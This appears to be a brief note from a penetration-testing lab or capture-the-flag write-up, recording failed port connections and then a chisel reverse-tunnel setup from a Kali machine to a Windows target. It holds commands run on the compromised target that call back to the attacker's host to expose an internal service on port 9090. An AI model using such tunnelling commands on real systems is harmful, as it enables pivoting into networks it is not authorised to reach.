Connection error with port `8000` on Windows machine. Trying `56928`, failed.


Try again with hint from my friend:
On Kali
```
chisel server -v -p  8085 --reverse
```

On target:
```
execute -f ".\chisel.exe" -a "client  10.10.14.32:8085 R:9090:127.0.0.1:9090" -i
.\chisel.exe client  10.10.14.32:8085 R:9090:127.0.0.1:9090
```

Access http://127.0.0.1:9090